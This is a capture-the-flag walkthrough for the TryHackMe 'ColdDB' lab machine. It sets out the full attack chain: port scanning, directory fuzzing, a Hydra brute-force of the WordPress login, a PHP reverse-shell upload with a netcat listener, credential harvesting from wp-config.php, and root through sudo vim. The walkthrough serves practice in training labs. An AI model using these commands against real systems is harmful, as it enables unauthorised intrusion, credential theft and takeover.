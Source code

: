 # TryHackMe - ColdDB (Easy)

Detailed walkthrough of the "ColdDB" machine on TryHackMe.  
Objective: Gain root access by moving from web enumeration to privilege escalation via Vim.

---

## Overview

This machine simulates a typical web-to-root scenario. The goal is to exploit a vulnerable WordPress site to gain a foothold, extract credentials, access the system via SSH, and escalate privileges using a misconfigured `vim` binary.

---

 1. Port Scanning

Initial full TCP port scan:


nmap -p- -T5 10.10.158.121

Open ports found:

    80 (HTTP)

    4512 (SSH on a non-standard port)

Service/version detection:

nmap -p 80,4512 -sV -A 10.10.158.121 -oN nmap.txt

2. Web Enumeration

Nothing obvious on the homepage. Using Gobuster:

gobuster dir -u http://10.10.158.121 -w /usr/share/wordlists/rockyou.txt

Discovered /Hidden, which contains a message:

    C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. – Philip

This reveals a potential valid username: C0ldd.
3. WordPress Login Brute Force

I first tested common credentials like admin:admin and admin:password — no success.

Trying the username C0ldd manually returned a WordPress error indicating that the password is incorrect, meaning the username is valid.

Brute-force attack with Hydra:

hydra -l C0ldd -P /usr/share/wordlists/rockyou.txt 10.10.158.121 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Incorrect" -V

Login successful. Access to the WordPress admin panel is now available at /wp-admin.
4. Uploading a Reverse Shell

From the WordPress admin panel, I uploaded a Pentestmonkey PHP reverse shell, disguised as a plugin.

However, it didn't appear in the usual plugins folder. After some digging, I found it uploaded here:

/wp-content/uploads/2025/05/shell.php

I started a Netcat listener:

nc -lvnp <PORT>

Triggering the URL launched the reverse shell successfully.
5. SSH Access & User Flag

From the initial shell, I tried reading /home/c0ldd/user.txt but lacked permission.

I searched the WordPress config file:

cat /var/www/html/wp-config.php

It contained database credentials — which also worked via SSH:

ssh -p 4512 c0ldd@10.10.158.121

After connecting, I was able to read the user flag:

cat /home/c0ldd/user.txt

It was Base64-encoded:

echo "RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==" | base64 --decode

→ Felicidades, primer nivel conseguido!
6.  Privilege Escalation

Checked sudo permissions:

sudo -l

Found that vim could be executed as root. Based on GTFOBins:

sudo vim -c ':!/bin/sh'

Confirmed root access with:

whoami
# root

7. Root Flag

Read the root flag:

cat /root/root.txt

It was also Base64-encoded:

echo "wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=" | base64 --decode

→ ¡Felicidades, máquina completada!
  Skills Demonstrated

   - Full-range port scanning with Nmap

   - Web directory fuzzing (Gobuster)

   - WordPress user enumeration & brute-force

   - Reverse shell upload via admin panel

   - Credential harvesting from wp-config.php

   - SSH login on custom port

   - Privilege escalation via sudo + GTFOBins

   - Base64 decoding of flags

